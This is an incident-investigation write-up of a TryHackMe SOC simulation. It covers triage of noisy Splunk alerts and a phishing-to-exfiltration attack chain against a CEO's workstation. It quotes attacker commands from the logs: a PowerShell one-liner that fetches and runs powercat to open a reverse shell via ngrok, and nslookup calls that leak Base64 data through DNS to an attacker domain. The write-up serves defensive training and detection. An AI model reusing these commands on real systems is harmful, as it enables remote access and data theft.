# Phishing Unfolding — SOC Alert Triage and Incident Investigation

## Environment

**Platform:** TryHackMe — Phishing Unfolding (SOC Simulation)

**SIEM:** Splunk (`index=main`, `sourcetype=_json`, `source=eventcollector`)

**Datasources:** Sysmon (endpoint telemetry), Email logs

**Threat Intelligence:** TryDetectThis (IOC reputation scoring)

**Date of Simulation:** 27/04/2026

---

## Lab Objective

Triage a live queue of SOC alerts generated during an unfolding phishing campaign against a corporate environment. Identify, investigate, and document the full attack chain in real time while processing false positive noise from undertunned detection rules — mirroring the dual-track workload of a real Security Operations Center.

---

## Tools and Technologies

| Tool | Role |
|---|---|
| Splunk | SIEM — log querying, event correlation, timeline reconstruction |
| Sysmon | Endpoint telemetry — process creation, file creation, DNS queries |
| Email logs | Phishing delivery visibility — sender, recipient, attachment, content |
| TryDetectThis | IOC reputation scoring — domain, email, and URL threat intelligence |

---

## Lab Content

### Simulation Overview

The alert queue in this simulation operated on two parallel tracks that had to be separated early to work efficiently.

**Track 1 — Detection Rule Noise**

Two detection rules generated the majority of alerts in the queue and required consistent False Positive triage throughout the simulation.

The first rule, *Suspicious Parent-Child Relationship*, fired repeatedly across multiple hosts on legitimate Windows process behavior. Processes flagged included `taskhostw.exe KEYROAMING` and `taskhostw.exe NGCKeyPregen` spawned by `svchost.exe`, `TrustedInstaller.exe` spawned by `services.exe`, `svchost.exe` spawned by `services.exe`, `WUDFHost.exe` spawned by `services.exe`, and `rdpclip.exe` spawned by `svchost.exe`. In every case, the working directory was `C:\Windows\system32\`, the parent process was expected, and the command line arguments were documented benign Windows behaviors related to credential roaming, Windows Hello key generation, component servicing, driver hosting, and RDP clipboard synchronization. The rule requires scoping to exclude these known-good parent-child relationships to reduce noise without sacrificing detection coverage on genuinely anomalous process trees. 

Below there is an example of *Suspicious Parent-Child Relationship* alert.



The second rule, *Suspicious Email from External Domain*, fired on every inbound email from an external sender regardless of content or payload. The rule flagged emails from standard Gmail addresses, legitimate industry domains, and addresses targeting non-existent employee inboxes. The SOC Lead note attached to every alert acknowledged the rule still required fine-tuning. Below there is an example of *Suspicious Email from External Domain* alert.



A baseline query run during triage confirmed the rule generated one alert per external sender with no content-based weighting:

```spl
index=main sourcetype=_json source=eventcollector
| search category="Phishing" OR subject="*"
| stats count by sender
| sort -count
```



The rule should be augmented with content-based signals — financial requests, urgency language, credential harvesting patterns — and cross-referenced against recipient validity before firing.

**Track 2 — The Incident Chain**

Running beneath the noise was a complete phishing-to-exfiltration attack chain targeting the CEO's workstation. This is documented in full below.

---

### Incident Investigation

#### Phase 1 — Initial Access

**MITRE T1566.001 — Spearphishing Attachment**

At 06:35:00, a phishing email was delivered to `michael.ascot@tryhatme.com` from `john@hatmakereurope.xyz`. The email used a business email compromise lure — an overdue payment notice with imminent account suspension and legal action threats — designed to pressure an executive into opening the attachment immediately. The attached file was `ImportantInvoice-Febrary.zip`, containing a deliberate typo in the filename ("Febrary") consistent with phishing artifact tradecraft.



The delivery was confirmed by querying the CEO's email history in Splunk:

```spl
index=main sourcetype=_json source=eventcollector recipient="michael.ascot@tryhatme.com"
| table _time, sender, subject, attachment, direction
| sort _time
```



The query returned the phishing email at 06:35:00, establishing it as the earliest event in the attack chain. Domain and sender reputation checks on TryDetectThis returned clean scores — consistent with freshly registered or low-profile attacker infrastructure not yet indexed by threat intelligence feeds.

At 06:45, Sysmon event code 1 recorded Outlook launching on win-3450 with the `/eml` flag:

```
OUTLOOK.EXE parent: OUTLOOK.EXE — "C:\Program Files\Microsoft Office\Root\Office16\OUTLOOK.EXE" /eml
```



The `/eml` switch confirms Michael Ascot opened the phishing email directly, triggering execution of the attachment payload 10 minutes after delivery.

**IOCs:**
- Sender: `john@hatmakereurope.xyz`
- Domain: `hatmakereurope.xyz`
- Attachment: `ImportantInvoice-Febrary.zip`
- Subject: `FINAL NOTICE: Overdue Payment - Account Suspension Imminent`

---

#### Phase 2 — Execution

**MITRE T1059.001 — PowerShell | MITRE T1105 — Ingress Tool Transfer**

At 06:55:19, Sysmon recorded a PowerShell process (PID 9060) spawned by `explorer.exe` executing the following command:

```powershell
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 2.tcp.ngrok.io -p 19282 -e powershell"
```



This command uses `Invoke-Expression` (IEX) to download and execute `powercat.ps1` directly into memory from GitHub, bypassing disk-based antivirus detection entirely. Powercat is a PowerShell-native netcat equivalent. The `-c 2.tcp.ngrok.io -p 19282 -e powershell` arguments establish a reverse shell back to attacker-controlled infrastructure tunneled through ngrok — a legitimate service used here to bypass egress firewall rules by disguising C2 traffic as outbound HTTPS.

At 06:55:20, Sysmon event code 11 recorded a file creation in the temp directory:

```
C:\Users\michael.ascot\AppData\Local\Temp\5\__PSScriptPolicyTest_hnpvwg1v.3mr.ps1
```

This artifact is automatically generated by PowerShell when testing execution policy, confirming the shell was fully active. A DNS query event (event code 22) at 06:55:10 preceded the shell establishment, consistent with PowerShell resolving `raw.githubusercontent.com` or `2.tcp.ngrok.io` before connecting.

The full activity on win-3450 was uncovered via the following query:

```spl
index=main sourcetype=_json source=eventcollector host.name="win-3450"
| table _time, event.code, process.name, process.parent.name, process.command_line, file.path, network.destination.ip, network.destination.domain
| sort _time
```

**IOCs:**
- URL: `https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1`
- C2: `2.tcp.ngrok.io:19282`
- Artifact: `C:\Users\michael.ascot\AppData\Local\Temp\5\__PSScriptPolicyTest_hnpvwg1v.3mr.ps1`

---

#### Phase 3 — Reconnaissance

**MITRE T1082 — System Information Discovery | MITRE T1033 — System Owner/User Discovery | MITRE T1069 — Permission Groups Discovery | MITRE T1087 — Account Discovery**

Immediately after establishing the reverse shell, the attacker executed a standard post-exploitation reconnaissance sequence through the active PowerShell session between 06:55:35 and 06:56:04:

```
systeminfo.exe          — full system enumeration (OS, hardware, domain, hotfixes)
whoami.exe              — current user context
whoami.exe /priv        — privilege enumeration
net.exe user            — local user account listing
net.exe localgroup      — local group membership listing
```



At 06:56:30, Sysmon event code 11 recorded PowerShell (PID 9060) writing `PowerView.ps1` to `C:\Users\michael.ascot\Downloads\`. PowerView is a well-known Active Directory enumeration tool from the PowerSploit offensive framework, used to map domain users, groups, trusts, GPOs, and identify privilege escalation paths. The file was executed multiple times between 06:56:51 and 06:57:19, indicating the attacker was actively querying Active Directory objects to map the environment and identify lateral movement targets.

**IOCs:**
- File: `C:\Users\michael.ascot\Downloads\PowerView.ps1`

---

#### Phase 4 — Lateral Movement

**MITRE T1021.002 — SMB/Windows Admin Shares**

At 06:58:25, the attacker mapped the financial records share from the internal file server directly to a local drive letter through the active PowerShell session:

```
"C:\Windows\system32\net.exe" use Z: \\FILESRV-01\SSF-FinancialRecords
```



The share name `SSF-FinancialRecords` indicates sensitive financial data. The target was identified specifically — either through PowerView AD enumeration in the previous phase or prior knowledge of the environment. The working directory at the time of execution was `C:\Users\michael.ascot\downloads\`, confirming the attacker was operating entirely within the compromised user's context.

FILESRV-01 had no Sysmon coverage of its own. The lateral movement to the file server is only visible through win-3450's telemetry, representing a significant detection blind spot in the environment.

**IOCs:**
- Network share: `\\FILESRV-01\SSF-FinancialRecords`
- Drive mapping: `Z:`

---

#### Phase 5 — Collection

**MITRE T1074.001 — Local Data Staging**

At 06:59:12, Robocopy was invoked from the mapped network share to stage the entire contents locally:

```
"C:\Windows\system32\Robocopy.exe" . C:\Users\michael.ascot\downloads\exfiltration /E
```

The working directory `Z:\` confirms execution directly from the mapped financial records share. The `/E` flag copies all subdirectories recursively including empty ones, meaning the attacker harvested the complete share contents. All data was staged to `C:\Users\michael.ascot\downloads\exfiltration\` in preparation for exfiltration.

At 06:59:23, the network drive was immediately unmapped:

```
"C:\Windows\system32\net.exe" use Z: /delete
```



This post-staging cleanup step removed the mapped drive to reduce forensic artifacts and limit detection of the lateral movement.

**IOCs:**
- Staging directory: `C:\Users\michael.ascot\downloads\exfiltration\`
- Command: `Robocopy.exe . C:\Users\michael.ascot\downloads\exfiltration /E`

---

#### Phase 6 — Exfiltration

**MITRE T1048.003 — Exfiltration Over Alternative Protocol: DNS**

At 07:00, the attacker executed a series of `nslookup.exe` processes spawned by `powershell.exe` (PID 3728) from `C:\Users\michael.ascot\downloads\exfiltration\`:

```
"C:\Windows\system32\nslookup.exe" UEsDBBQAAAAIANigLlfVU3cDIgAAAI.haz4rdw4re.io
"C:\Windows\system32\nslookup.exe" AFBLAwQUAAAACAC9oC5XHhlO5R8AAA.haz4rdw4re.io
"C:\Windows\system32\nslookup.exe" U3VtbWFyeS54bHNc87JTM0rcgvKk.haz4rdw4re.io
"C:\Windows\system32\nslookup.exe" dGF0aW9uMjUyMy5wcHR4488wrSy0uyS.haz4rdw4re.io
"C:\Windows\system32\nslookup.exe" VEhNezE0OTczMjFmNGY2ZjA1OWE1Mm.haz4rdw4re.io
"C:\Windows\system32\nslookup.exe" RmYjEyNGZiMTY1NjZlfQ==.haz4rdw4re.io
```



The subdomains preceding `.haz4rdw4re.io` are Base64-encoded chunks of the staged financial data. The technique works by encoding file contents in Base64, splitting the output into fixed-length chunks, and issuing each chunk as a DNS query subdomain to an attacker-controlled domain. The attacker's authoritative DNS server logs every incoming query, reassembles the chunks in order, and decodes the Base64 to reconstruct the original files — all without a single byte of data leaving the network over a monitored protocol.

Decoding the subdomains confirmed the exfiltrated content included at minimum `Summary.xls` (a financial spreadsheet) and a `.pptx` presentation file from the financial records share. The final chunk ends with `==`, the Base64 padding marker indicating the end of the encoded stream. Ten Sysmon alerts were generated across the full DNS tunneling sequence, one per nslookup invocation.

DNS tunneling is particularly effective against environments that do not perform deep inspection of DNS query content or monitor for high-frequency nslookup invocations from non-DNS processes. The attacker-controlled domain `haz4rdw4re.io` returned clean scores on TryDetectThis, consistent with freshly provisioned infrastructure.

At 07:00:35, the reverse shell was re-established twice via the same powercat command, indicating the attacker maintained persistent access after completing the exfiltration sequence.

**IOCs:**
- Domain: `haz4rdw4re.io` (attacker-controlled DNS exfiltration endpoint)
- Parent process: `powershell.exe` (PID 3728)
- Working directory: `C:\Users\michael.ascot\downloads\exfiltration\`
- Exfiltrated content: `Summary.xls`, `[Presentation].pptx` (from `\\FILESRV-01\SSF-FinancialRecords`)

---

## Implications for a SOC Analyst

**Detection gaps identified:**

FILESRV-01 had no Sysmon coverage. The lateral movement to the financial records share and the full scope of data accessed are only visible through the originating host's telemetry. In a real environment this would severely limit the ability to assess the blast radius of the breach. Sysmon deployment should be treated as a baseline requirement across all servers, not just workstations.

DNS tunneling went undetected until process telemetry revealed nslookup spawned by PowerShell from an exfiltration staging directory. A DNS-layer monitoring solution inspecting query frequency, subdomain entropy, and query length would have flagged `haz4rdw4re.io` traffic before exfiltration completed. Long Base64-encoded subdomains have high entropy and abnormal length — both detectable without deep packet inspection.

The two undertunned detection rules generated significant noise throughout the simulation. In a real SOC, alert fatigue from consistent false positives on known-benign Windows behaviors creates the conditions under which real incidents are missed or deprioritized. Rule tuning is not a cosmetic improvement — it is a direct operational security requirement.

**Attacker tradecraft observations:**

The use of fileless execution via IEX prevented PowerShell payload from touching disk, bypassing hash-based and file-based detection. The use of ngrok for C2 tunneling disguised the reverse shell as outbound HTTPS to a legitimate service. The use of DNS tunneling for exfiltration bypassed egress controls entirely. Each technique was chosen specifically to operate within the blind spots of standard enterprise monitoring.

**Full MITRE ATT&CK mapping:**

| Technique | ID | Phase |
|---|---|---|
| Spearphishing Attachment | T1566.001 | Initial Access |
| PowerShell | T1059.001 | Execution |
| Ingress Tool Transfer | T1105 | Execution |
| System Information Discovery | T1082 | Reconnaissance |
| System Owner/User Discovery | T1033 | Reconnaissance |
| Permission Groups Discovery | T1069 | Reconnaissance |
| Account Discovery | T1087 | Reconnaissance |
| SMB/Windows Admin Shares | T1021.002 | Lateral Movement |
| Local Data Staging | T1074.001 | Collection |
| Exfiltration Over Alternative Protocol: DNS | T1048.003 | Exfiltration |

---

*— End of Write-Up —*